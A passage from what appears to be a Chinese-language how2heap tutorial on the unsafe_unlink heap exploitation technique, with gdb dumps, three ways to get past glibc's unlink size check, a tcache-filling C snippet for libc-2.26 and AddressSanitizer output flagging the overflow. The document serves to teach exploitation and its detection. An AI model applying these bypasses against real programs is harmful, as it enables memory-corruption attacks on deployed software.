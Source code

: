 ```
0x6020c0:	0x0000000000000000	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
0x6020e0:	0x0000000000000000	0x0000000000000000
0x6020f0:	0x0000000000000000	0x0000000000000000
0x602100:	0x0000000000000000	0x0000000000000000
0x602110:	0x0000000000000000	0x0000000000000000
0x602120:	0x0000000000000000	0x0000000000020ee1  <-- top chunk
0x602130:	0x0000000000000000	0x0000000000000000
```
这里有三种办法可以绕过该检查：
- 什么都不做。
  - `chunksize(P) == chunk0_ptr[1] & (~ 0x7) == 0x0`
  - `prev_size (next_chunk(P)) == prev_size (chunk0_ptr + 0x0) == 0x0`
- 设置 `chunk0_ptr[1] = 0x8`。
  - `chunksize(P) == chunk0_ptr[1] & (~ 0x7) == 0x8`
  - `prev_size (next_chunk(P)) == prev_size (chunk0_ptr + 0x8) == 0x8`
- 设置 `chunk0_ptr[1] = 0x80`。
  - `chunksize(P) == chunk0_ptr[1] & (~ 0x7) == 0x80`
  - `prev_size (next_chunk(P)) == prev_size (chunk0_ptr + 0x80) == 0x80`

好的，现在 libc-2.25 版本下我们也能成功利用了。接下来更近一步，libc-2.26 怎么利用，首先当然要先知道它新增了哪些漏洞缓解措施，其中一个神奇的东西叫做 tcache，这是一种线程缓存机制，每个线程默认情况下有 64 个大小递增的 bins，每个 bin 是一个单链表，默认最多包含 7 个 chunk。其中缓存的 chunk 是不会被合并的，所以在释放 chunk 1 的时候，`chunk0_ptr` 仍然指向正确的堆地址，而不是之前的 `chunk0_ptr = P = P->fd`。为了解决这个问题，一种可能的办法是给填充进特定大小的 chunk 把 bin 占满，就像下面这样：
```c
    // deal with tcache
    int *a[10];
    int i;
    for (i = 0; i < 7; i++) {
		a[i] = malloc(0x80);
	}
	for (i = 0; i < 7; i++) {
		free(a[i]);
	}
```
```
gef➤  p &chunk0_ptr 
$2 = (uint64_t **) 0x555555755070 <chunk0_ptr>
gef➤  x/gx 0x555555755070
0x555555755070 <chunk0_ptr>:    0x00007fffffffdd0f
gef➤  x/gx 0x00007fffffffdd0f
0x7fffffffdd0f: 0x4242424242424242
```
现在 libc-2.26 版本下也成功利用了。tcache 是个很有趣的东西，更详细的内容我们会在专门的章节里去讲。

加上内存检测参数重新编译，可以看到 heap-buffer-overflow：
```
$ gcc -fsanitize=address -g unsafe_unlink.c 
$ ./a.out 
The global chunk0_ptr is at 0x602230, pointing to 0x60c00000bf80
The victim chunk we are going to corrupt is at 0x60c00000bec0

Fake chunk fd: 0x602218
Fake chunk bk: 0x602220

=================================================================
==5591==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60c00000beb0 at pc 0x000000400d74 bp 0x7ffd06423730 sp 0x7ffd06423720
WRITE of size 8 at 0x60c00000beb0 thread T0
    #0 0x400d73 in main /home/firmy/how2heap/unsafe_unlink.c:26
    #1 0x7fc925d8282f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #2 0x400968 in _start (/home/firmy/how2heap/a.out+0x400968)

0x60c00000beb0 is located 16 bytes to the left of 128-byte region [0x60c00000bec0,0x60c00000bf40)
allocated by thread T0 here:
```